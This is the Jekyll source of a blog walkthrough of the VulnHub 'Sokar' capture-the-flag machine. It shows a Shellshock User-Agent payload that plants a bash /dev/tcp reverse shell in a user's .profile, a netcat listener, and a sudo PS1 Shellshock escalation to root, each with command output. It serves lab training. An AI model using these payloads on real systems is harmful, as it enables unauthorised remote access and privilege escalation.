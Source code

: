 ```yaml
---
layout: blog_item
title:  "Sokar - Walkthrough"
date:   2024-02-23 14:00:10
author: Dhruv Ambaliya
description: 'Sokar - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Description

Sokar was a vulnhub competition, unfortunately I did not have enough free time to compete.

**Author:** @_RastaMouse

**Download:** [VulnHub](https://www.vulnhub.com)


## Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.148

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 591</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Inspection of the Web Application revealed <code>/cgi-bin/cat</code> which indicated it could be vulnerable to shellshock.

### Shellshock

The Shellshock exploit was used to execute remote commands on the target system, however a reverse shell or bind shell were not possible due to restrictive ingress and egress firewall rules. This made for a painful local enumeration of the system via **Burp Suite**.  

#### Identify Current User

![Shellshock ID](/img/blog/sokar/shellshock-id.png)

#### Shellshock home dir perms

![Shellshock home dir](/img/blog/sokar/shellshock-home-dirs.png)

#### Shellshock files owned by user bynarr  

![Shellshock find command](/img/blog/sokar/shellshock-find.png)

The file <code>/tmp/stats</code> appeared to get updated every few minutes, indicating a cronjob *could* be running.

#### Shellshock mail spool readable

![Shellshock mail](/img/blog/sokar/shellshock-mail.png)

The above disclosed <code>bynarrs</code> passwords and the outbound port <code>51242</code> rule for the user.

## Reverse Shell

The following shellshock payload was sent using Burp Suite:

{% highlight bash %}
User-Agent: () { :;};echo;/bin/echo '/bin/bash -i >& /dev/tcp/192.168.221.139/51242 0>&1 ' > /home/bynarr/.profile;
{% endhighlight %}

The cronjob called the .profile file and execute the file contents.

A reverse shell was successfully spawned as the user <code>bynarr</code>

{% highlight bash %}
[root:~/Downloads]# nc.traditional -lp 51242 -vvvv
listening on [any] 51242 ...
192.168.221.148: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.148] 59533
bash: no job control in this shell
{% endhighlight %}


## Local Enumeration

The following disclosed several bash environment variables were permitted to run as the user <code>bynarr</code> with sudo permissions.

{% highlight bash %}
[bynarr@sokar ~]$ sudo -l
sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime

{% endhighlight %}

## Shellshock Local Privilege Escalation

The following shellshock payload was crafted to successfully escalate permissions to root:

{% highlight bash %}
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
{% endhighlight %}

## Root Flag

{% highlight bash %}
[bynarr@sokar tmp]$ sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sh-4.1# ls -la /home/bynarr/lime
ls -la /home/bynarr/lime
-rwxr-xr-x 1 root root 368 Jan 27  2015 /home/bynarr/lime
sh-4.1# cat /root/flag
cat /root/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
{% endhighlight %}

Thanks for the VM :)
